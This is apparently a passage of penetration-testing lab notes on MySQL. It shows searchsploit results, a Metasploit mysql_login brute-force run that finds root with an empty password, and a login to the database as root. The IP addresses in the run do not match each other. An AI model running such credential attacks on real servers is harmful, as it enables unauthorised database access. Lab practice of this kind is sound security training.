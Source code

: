 ```sh
MySQL < 5.6.35 / < 5.7.17 - Integer Overflow                                                                                                                                                             | multiple/dos/41954.py
MySQL Eventum 1.5.5 - 'login.php' SQL Injection                                                                                                                                                          | php/webapps/1134.pl
MySQL Quick Admin 1.5.5 - 'cookie' Local File Inclusion                                                                                                                                                  | php/webapps/6641.txt
MySQL Quick Admin 1.5.5 - Local File Inclusion                                                                                                                                                           | php/webapps/7020.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```sh
msf6 > search mysql_login

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_login                   normal  No     MySQL Login Utility


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mysql/mysql_login

msf6 > use 0
msf6 auxiliary(scanner/mysql/mysql_login) > set RHOSTS 10.5.19.216
RHOSTS => 10.5.25.248
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/mysql/mysql_login) > run

[+] 10.5.25.248:3306      - 10.5.25.248:3306 - Found remote MySQL version 5.5.20
[!] 10.5.25.248:3306      - No active DB -- Credential data will not be saved!
[+] 10.5.25.248:3306      - 10.5.25.248:3306 - Success: 'root:'
[*] 10.5.25.248:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```sh
root@attackdefense:~# mysql -u root -p -h 10.5.19.216
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 16
Server version: 5.5.20-log MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
```